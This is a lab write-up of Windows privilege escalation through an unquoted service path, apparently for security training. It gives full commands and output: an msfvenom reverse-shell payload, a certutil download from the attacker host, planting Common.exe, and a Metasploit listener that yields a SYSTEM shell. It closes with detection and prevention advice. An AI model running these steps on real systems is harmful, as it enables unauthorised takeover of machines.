







# Unquoted Path Service

**Date:** June 2026<br>
**Author:** ShahinSecLab<br>
**Category:** Privilege Escalation<br>
**Difficulty:** Easy<br>
**Tools:** msfvenom, Metasploit, winPEAS, accesschk.exe

## Table of Contents

* [Introduction](#introduction)
* [Attack Flow](#attack-flow)
* [Why This Attack Works](#why-this-attack-works)
* [Lab Setup](#lab-setup)
* [Tools Used](#tools-used)
* [Prerequisites](#prerequisites)
* [Step 1 — Finding the Unquoted Path Service](#step-1--finding-the-unquoted-path-service)
* [Step 2 — Finding a Writable Folder in the Path](#step-2--finding-a-writable-folder-in-the-path)
* [Step 3 — Generating a New Payload and Downloading it to the Victim](#step-3--generating-a-new-payload-and-downloading-it-to-the-victim)
* [Step 4 — Copying the Payload and Starting the Service](#step-4--copying-the-payload-and-starting-the-service)
* [Step 5 — Getting a SYSTEM Shell](#step-5--getting-a-system-shell)
* [How Defenders Can Catch This](#how-defenders-can-catch-this)
* [How to Prevent It](#how-to-prevent-it)
* [References](#references)
* [Lessons Learned](#lessons-learned)

## Introduction

Unquoted Path Service is a Windows privilege escalation technique. It happens when a service path contains spaces but is not enclosed in quotation marks. Windows checks the path one part at a time to find the executable. If a normal user can place a malicious executable in one of those locations, Windows may run that file instead of the real service binary. If the service runs as `SYSTEM`, the attacker gets a `SYSTEM` shell.

## Attack Flow

```
winPEAS flagged unquotedsvc service — unquoted path with spaces detected
                        ↓
Checked service config — runs as LocalSystem (SYSTEM)
                        ↓
Checked folder permissions along the binary path
                        ↓
Found C:\Program Files\Unquoted Path Service\ is writable by normal users
                        ↓
Generated malicious payload rev.exe on Kali with msfvenom
                        ↓
Hosted payload over HTTP with Python HTTP server
                        ↓
Downloaded rev.exe to victim using certutil
                        ↓
Copied rev.exe to writable folder as Common.exe
                        ↓
Started Metasploit listener on port 4444
                        ↓
Started unquotedsvc service
                        ↓
Windows found Common.exe first and ran it as SYSTEM
                        ↓
Metasploit caught the shell
                        ↓
whoami → nt authority\system
```

## Why This Attack Works

Windows handles unquoted paths with spaces in a specific way. For example:

```bash
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```
Windows does not read this as one full path. It breaks it up at every space and tries each combination:

```bash
C:\Program.exe
C:\Program Files\Unquoted.exe
C:\Program Files\Unquoted Path Service\Common.exe
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```
It stops at the first one it finds. So if I drop a file called Common.exe inside C:\Program Files\Unquoted Path Service\, Windows picks it up and runs it as SYSTEM before ever reaching the real binary.

## Lab Setup

|       Component      |         Details          |
|----------------------|--------------------------|
| **Attacker Machine** | Kali Linux               |
| **Attacker IP**      | `192.168.5.128 `           |
| **Victim Machine**   | Windows 10               |
| **Victim IP**        | `192.168.5.144`            |
| **Network**          | VMware Host-Only Network |
| **Domain**           | WORKGROUP                |

## Tools Used

| Tool | Location | Purpose |
|------|----------|---------|
| `winPEASany.exe` | `/home/kali/Desktop/tools/` | Find privilege escalation opportunities |
| `accesschk.exe` | `/home/kali/Desktop/tools/` | Check write permissions on folders |
| `msfvenom` | Built into Kali | Generate the reverse shell payload |
| `Metasploit` | Built into Kali | Receive the reverse shell |

## Prerequisites

| What     | Why                                    |
| ---------------------------------------------------------- | ------------------------------------------ |
| Windows machine with an unquoted service path              | Target machine                             |
| Low privilege shell on the target                          | Required to interact with the service      |
| Service running as `LocalSystem`                           | Required to gain `SYSTEM` privileges       |
| Write permission on one of the folders in the service path | Required to place the malicious executable |

## Step 1 — Finding the Unquoted Path Service

I started by running `winPEAS` to check for possible privilege escalation opportunities on the target machine.

```bash
C:\PrivEsc> winPEASany.exe
```
While looking through the results, I found that `winPEAS` reported the `unquotedsvc` service. The executable path contained spaces but was not enclosed in quotation marks.

**Output:**

```
unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - No quotes and Space detected 
```
<p align="center">
  
</p>

The service path looked interesting because Windows can search the path incorrectly when quotation marks are missing. I decided to check the service in more detail.

### Checked the Service Configuration

Next, I checked the service configuration to confirm what `winPEAS` found.

```bash
C:\PrivEsc> sc qc unquotedsvc
```
**Breakdown**

| Part | Description |
|------|--------------------------------------------|
| `sc` | Windows Service Control utility |
| `qc` | Displays the service configuration |
| `unquotedsvc` | The service to inspect |

***Output:**

```
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
The output showed that the service path contains spaces and is not enclosed in quotation marks. It also showed that the service runs as `LocalSystem`, which means it starts with `SYSTEM` privileges.

### Checked Write Permissions on `C:\`

The service path starts from `C:\`, so I first checked whether I had write permission there.

```bash
C:\PrivEsc>.\accesschk /accepteula -uwdq C:\
```
**Breakdown**

| Part | Description |
|------|--------------------------------------------|
| `.\accesschk.exe` | Runs the AccessChk tool |
| `/accepteula` | Accepts the Sysinternals license agreement |
| `-u` | Hides error messages |
| `-w` | Shows only writable objects |
| `-d` | Checks directory permissions |
| `-q` | Quiet mode |
| `C:\` | Folder to check |

**Output:**

```
C:\
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Administrators
  RW NT AUTHORITY\SYSTEM
```
The output showed that only **Administrators** and **SYSTEM** had write access to `C:\`. Since my user didn't have permission to write there, I needed to check the next folder in the service path.

<p align="center">
  
</p>

## Step 2 — Finding a Writable Folder in the Path

Next, I checked each folder in the service path to see if I had write permission.

### Checked Write Permissions on `C:\Program Files\`

```bash
C:\PrivEsc>.\accesschk /accepteula -uwdq "C:\Program Files\"
```
**Output:**

```
C:\Program Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```
The output showed that only **TrustedInstaller**, **SYSTEM**, and **Administrators** had write permission. My user could not write to this folder.

<p align="center">
  
</p>

### Checked Write Permissions on `C:\Program Files\Unquoted Path Service\`

Since I couldn't write to the previous folder, I checked the next folder in the service path.

```bash
C:\PrivEsc>.\accesschk /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```
**Output:**

```
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```
This time, I found `RW BUILTIN\Users`, which means any normal user can write to this folder. This was exactly what I was looking for, because it gave me a place where I could put my malicious executable.

### Step 3 — Generating a New Payload and Downloading it to the Victim

### Generated Payload on Kali

After finding a writable folder, I created a new Meterpreter payload using `msfvenom`.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.5.128 LPORT=4444 -f exe -o rev.exe
``` 
**Breakdown**

| PartS | Description |
|------|--------------------------------------------------|
| `-p windows/x64/meterpreter/reverse_tcp` | Creates a 64-bit Windows Meterpreter reverse TCP payload |
| `LHOST=192.168.5.128` | IP address of my Kali machine |
| `LPORT=4444` | Port that listens for the reverse connection |
| `-f exe` | Creates the payload as a Windows executable |
| `-o rev.exe` | Saves the payload as `rev.exe` |

**Output:**

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7680 bytes
Saved as: rev.exe
```
The payload was created successfully and saved as `rev.exe`.

<p align="center">
  
</p>

### Started Python HTTP Server on Kali

To transfer the payload to the victim machine, I started a Python HTTP server.

```bash
python3 -m http.server 80
```
**Breakdown**

| Part | Description |
|------|--------------------------------------|
| `python3` | Runs Python 3 |
| `-m` | Runs a Python module |
| `http.server` | Starts a simple HTTP server |
| `80` | Listens on port 80 |

**Output:**

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.5.144 - - [20/Jun/2026 22:51:35] "GET / HTTP/1.1" 200 -
```

### Downloaded the Payload on the Victim Machine

On the victim machine, I used `certutil` to download the payload from my Kali machine.

```bash
certutil -urlcache -split -f http://192.168.5.128/rev.exe rev.exe
```
**Breakdown**

| Part | Description |
|------|--------------------------------------------------|
| `-urlcache` | Downloads a file from a URL |
| `-split` | Downloads the file in blocks |
| `-f` | Overwrites the file if it already exists |
| `http://192.168.5.128/rev.exe` | URL of the payload |
| `rev.exe` | Saves the downloaded file with this name |

**Output:**

```
****  Online  ****
  0000  ...
  1e00
CertUtil: -URLCache command completed successfully.
```
<p align="center">
  
</p>

The payload was downloaded successfully and saved as `rev.exe` on the victim machine.

## Step 4 — Copying the Payload and Starting the Service

### Copied the Payload to the Writable Folder

Since I had write permission on `C:\Program Files\Unquoted Path Service\`, I copied my payload there and named it `Common.exe.`

```bash
copy C:\PrivEsc\rev.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
**Output:**

```
1 file(s) copied.
```
The payload was copied successfully. I renamed it to `Common.exe` because Windows will look for that file first when it tries to start a service with an unquoted path.

<p align="center">
  
</p>

### Started the Metasploit Listener on Kali

Before starting the service, I started a Metasploit listener on my Kali machine to receive the reverse shell.

```bash
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.5.128
set lport 4444
run
```
**Output:**

```
msfconsole -q                                                                                   
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.5.128
lhost => 192.168.5.128
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.5.128:4444 
```
<p align="center">
  
</p>

### Started the Service

After everything was ready, I started the vulnerable service.

```bash
C:\PrivEsc> net start unquotedsvc
```
**Breakdown**

| Part          | Description                                                 |
| ------------- | ----------------------------------------------------------- |
| `net`         | Windows command used to manage network and system services. |
| `start`       | Starts a Windows service.                                   |
| `unquotedsvc` | Name of the service to start.                               |

When the service started, Windows looked for the executable in the unquoted path. It found `Common.exe` in the writable folder and executed it with `SYSTEM` privileges, causing the reverse connection to my Metasploit listener.

## Step 5 — Getting a SYSTEM Shell

### Metasploit Caught the Connection

After I started the service, my payload connected back to the Metasploit listener and opened a new Meterpreter session.

```
[*] Sending stage (244806 bytes) to 192.168.5.144
[*] Meterpreter session 2 opened (192.168.5.128:4444 -> 192.168.5.144:50097) at 2026-06-20 23:47:53 -0400

meterpreter >
```
<p align="center">
  
</p>

### Opened a Command Shell

Next, I opened a Windows command shell from the Meterpreter session.

```bash
meterpreter > shell
```
**Output:**

```
Process 7880 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.2965]
(c) Microsoft Corporation. All rights reserved.
```
<p align="center">
  
</p>

### Checked My Privileges

To check which account I was running as, I used the `whoami` command.

```bash
C:\PrivEsc>whoami
```
**Output:**

```
nt authority\system
```

<p align="center">
  
</p>

The output confirmed that I was running as `NT AUTHORITY\SYSTEM`. This confirmed that the privilege escalation was successful.

## How Defenders Can Catch This

| Indicator                                                         | What to look for                        |
| ----------------------------------------------------------------- | --------------------------------------- |
| Services with unquoted binary paths                               | Review service configurations regularly |
| Unexpected executable files such as `Program.exe` or `Common.exe` | Monitor important system folders        |
| New executable files in service directories                       | File integrity monitoring               |
| Service configuration checks reporting unquoted paths             | Security auditing                       |
| Services starting unexpected executables                          | Process creation monitoring             |
| Meterpreter or reverse shell connections                          | Network monitoring                      |
| Event logs showing unexpected service activity                    | Windows Event Logs                      |

## How to Prevent It

- Always enclose service binary paths containing spaces in quotation marks.
- Do not allow normal users to write to folders used by Windows services.
- Review file and folder permissions regularly.
- Remove unnecessary write permissions from BUILTIN\Users and Everyone.
- Audit Windows services to find unquoted paths.
- Monitor service folders for unexpected executable files.
- Use the principle of least privilege for users and services.
- Regularly review systems with tools such as winPEAS during security assessments.

## References

| Resource | Link |
|----------|------|
| Microsoft Learn — Windows Services | https://learn.microsoft.com/en-us/windows/win32/services/services |
| Microsoft Learn — Service Security and Access Rights | https://learn.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights |
| Microsoft Sysinternals — AccessChk | https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk |
| Microsoft Learn — Service Control (sc.exe) | https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-config |
| PayloadsAllTheThings — Windows Privilege Escalation | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md |
| HackTricks — Windows Privilege Escalation | https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation |
| Juggernaut Security — Windows Privilege Escalation | https://juggernaut-sec.com/windows-privilege-escalation/ |
| TCM Security — Windows Privilege Escalation | https://tcm-sec.com/ |

## Lessons Learned

While working through this attack, I learned that:

- A missing pair of quotes around a service path can lead to SYSTEM access.
- The attack only works if I can write to one of the folders Windows checks.
- winPEAS makes it easy to find unquoted service paths.
- Write permissions on service folders are just as important as the service configuration.
- Checking every folder in the service path is important because only one writable folder is needed.
- A simple configuration mistake can become a serious privilege escalation issue.
- Adding quotes around the service path and fixing folder permissions is enough to stop this attack.